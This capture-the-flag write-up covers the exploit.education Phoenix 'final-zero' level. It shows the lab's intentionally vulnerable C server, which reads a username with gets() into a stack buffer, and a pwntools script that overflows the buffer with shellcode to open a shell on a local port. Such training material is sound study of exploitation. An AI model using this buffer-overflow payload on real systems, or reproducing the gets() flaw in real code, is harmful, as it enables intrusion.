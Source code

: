 # Final Zero

## Code

```
/*
 * phoenix/final-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * A woman has twins and gives them up for adoption.
 *
 * One of them goes to a family in Egypt and is named Amal. The other goes to a
 * family in Spain. They name him Juan.
 *
 * Years later, Juan sends a picture of himself to his birth mother. Upon
 * receiving the picture, she tells her husband that she wishes she also had a
 * picture of Amal. He responds, "They're twins! If you've seen Juan, you've
 * seen Amal."
 */

#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *s);

/*
 * Read the username in from the network
 */

char *get_username() {
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if (q) *q = 0;
  q = strchr(buffer, '\r');
  if (q) *q = 0;

  /* Convert to lower case */
  for (i = 0; i < strlen(buffer); i++) {
    buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp) {
  char *username;

  printf("%s\n", BANNER);
  fflush(stdout);

  username = get_username();
  printf("No such user %s\n", username);
}
```

## Solution

As we can see there is a get with a controll on the char that we can use, to resome we can not use:

 * '0x0'
 * '0xa' - '0xd', '\n' and '\r'
 * '0x61' - '0x7a' that will be subtract '0x20'

Using gdb we can see that the distance between the RIP and the start of the buffer is 0x214 (532). Now we need a sheelcode that is smoller than 532 bytes and doesn't contains that particular char. After some time i saw that the uppercase part use strlen, so we just need to start the payload with a '\r', not '\n', because the get will stop instead.

```
from pwn import *
import struct

def main():
    conn = remote('127.0.0.1', 64013)
    print(conn.recvline())
    payload = "\r" + b'\x90' * 20
    payload += asm(shellcraft.i386.linux.sh())
    payload += b'\x90' * (532 - len(payload))
    payload += struct.pack("<I", 0xffffdb20) + "\n"
    conn.send(payload)
    conn.interactive()

main()
```
